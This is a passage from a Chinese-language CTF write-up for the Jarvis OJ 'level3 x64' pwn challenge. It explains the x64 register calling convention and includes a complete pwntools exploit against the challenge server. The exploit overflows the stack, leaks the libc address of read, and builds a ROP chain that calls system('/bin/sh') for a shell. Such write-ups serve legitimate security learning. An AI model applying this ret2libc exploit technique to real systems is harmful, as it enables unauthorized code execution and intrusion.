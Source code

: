 ```python
p.interactive()
```

### level3 x64
很明显的栈溢出
但是怎么利用呢，给了 libc ，所以应该是 rop, 自己找 gadgets？
直接找 one_gadget 呢，还有熟悉一下 x64 寄存器内容
搜索 onegadgets 
pwngdb 里面是可以直接是有`rop`命令搜索的，还算方便

但是没有`rdx`的`gadgets` 呀，因为不知道 libc 的基址。.. 也没法用 libc 的，我们的目的是使 rdx>=8，如果满足就可以不用管了，可以调一调看满不满足 

X64 使用寄存器传参 
1. 构造 write 的调用栈打印函数 got 地址
  `write(0,read_got,0x08)` 将`rdi-0，rsi-read_got,rdx-0x08`
  32 位：`system_plt, 'b' * 4, binsh_addr`函数参数在函数返回地址的上方
  ，函数调用时入栈顺序为：
实参 N~1→主调函数返回地址→主调函数帧基指针 EBP→被调函数局部变量 1~N
  64 位：参数依次保存在`RDI, RSI, RDX, RCX, R8 和 R9 `寄存器中，如果还有更多的参数的话才会保存在栈上
2. 计算`Libc `基址，获得`system`地址
3. 构造 `system`调用栈  

复习一下 x64 传参顺序！
需要的有。..
用约定 `32: eax—syscall`号 `ebx,ecx,edx`参数 64: `rax—syscall`号 `rdi,rsi,rdx,rcx,r8,r9`
```python
from pwn import *
import logging
#p = process("./level3_x64")
p= remote("pwn2.jarvisoj.com", 9883)
elf = ELF('./level3_x64')
libc = ELF("libc-2.19.so")

pop_rdi = 0x0004006b3
pop_rsi=0x00000000004006b1
vun_addr = 0x004005E6
read_got = elf.got['read']
exit_libc_address = 0x3c1e0
write_plt = 0x0004004B0 
print(hex(read_got))
print(hex(write_plt))
#payload = flat(['a'*0x88,pop_rdi,0x1,pop_rsi,read_got,0,write_plt,vun_addr])

payload= 'a'*0x88+p64(pop_rdi)+p64(0x1)+p64(pop_rsi)+p64(read_got)+p64(0)+p64(write_plt)+p64(vun_addr)

#gdb.attach(p)
p.recvuntil("Input:\n")
p.send(payload)
data = p.recv(8)
read_addr = u64(data[0:8])
print hex(read_addr)
libc_base = read_addr-libc.symbols['read']
sys_addr = libc_base+libc.symbols['system']
print hex(sys_addr)
exit_address = libc_base + exit_libc_address
binsh_addr = libc.search("/bin/sh").next()+libc_base
print hex(binsh_addr) 

#payload=flat(['a'*0x88,pop_rdi,binsh_addr,sys_addr,0xdeadbeef])
payload = 'a'*0x88+p64(pop_rdi)+p64(binsh_addr)+p64(sys_addr)+p64(exit_address)
p.send(payload)
p.interactive()
```
